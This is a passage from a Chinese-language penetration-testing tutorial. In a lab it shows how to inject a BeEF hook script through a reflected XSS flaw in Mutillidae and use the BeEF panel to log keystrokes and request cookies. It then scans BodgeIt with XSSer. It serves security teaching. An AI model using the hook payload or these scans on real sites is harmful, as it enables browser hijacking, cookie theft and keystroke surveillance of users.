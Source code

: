 1.  攻击者的下一步将是利用持久性 XSS 或诱使用户点击指向恶意站点或易受 XSS 攻击的站点的链接。

现在，作为受害者，转到 Mutillidae（OWASP 2013 | A3 - 跨站脚本（XSS） | 反射（一级） | DNS 查找）并在主机名/IP 文本框中提交以下内容：

```
      <script src="img/hook.js"></script> 
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00183.jpeg)

1.  再次，`10.7.7.4`是运行 BeEF 的服务器的地址。在这种情况下，是您的 Kali Linux 机器。您可以看到结果似乎是空的，但如果您浏览到 BeEF 控制面板，您将看到您有一个新的浏览器连接。在详细信息选项卡中，您可以看到有关此浏览器的所有信息：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00184.jpeg)

1.  如果您转到当前浏览器的日志选项卡，您将看到钩子记录用户在浏览器中的所有操作，从点击和按键到窗口或标签的更改：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00185.jpeg)

1.  在命令选项卡中，您可以向受害者浏览器发出命令。例如，在下面的截图中，请求了一个 cookie：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00186.jpeg)

# 扫描 XSS 漏洞

有了数百种可能的有效载荷变体，并且是 Web 应用程序中最常见的漏洞之一，XSS 有时很难找到，或者如果找到了，很难生成一个令客户团队投入时间和精力来修复它的令人信服的概念验证利用。此外，具有数百或数千个输入参数的大型应用程序几乎不可能在时间限制的测试中完全覆盖。

因此，您可能需要使用自动化工具来加快生成结果的速度，即使可能会牺牲一定程度的准确性，并增加触发应用程序中某些服务中断的风险。有许多 Web 漏洞扫描器，免费和付费都有，具有各种不同的准确性、稳定性和安全性。现在我们将回顾一些已被证明高效可靠的 XSS 漏洞专用扫描器。

# XSSer

**跨站“脚本者”**（**XSSer**）是一个自动化框架，旨在检测、利用和报告基于 Web 的应用程序中的 XSS 漏洞。它包含在 Kali Linux 中。

XSSer 可以检测持久性、反射性和基于 DOM 的 XSS，扫描指定的 URL 或根据给定的查询在 Google 上搜索潜在目标，通过不同的机制进行身份验证，并执行许多其他任务。

让我们尝试使用 BodgeIt 的搜索请求作为目标进行简单的扫描。为此，请在 Kali Linux 的终端中发出以下命令：

```
xsser -u http://10.7.7.5/bodgeit/search.jsp -g ?q=  
```

在这里，XSSer 在由`-u`参数指示的 URL 上运行，并使用`GET`方法和`q`（`-g ?q=`）参数进行扫描。这意味着扫描器将其有效负载附加到`-g`之后指定的字符串，并将其结果附加到 URL 上，因为它使用`GET`。运行命令后，您将看到结果表明测试的 URL 易受 XSS 攻击：

！[](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00187.jpeg)

还可以使用以下命令使用 GUI：

```
xsser -gtk
```

这是 GUI 的外观：
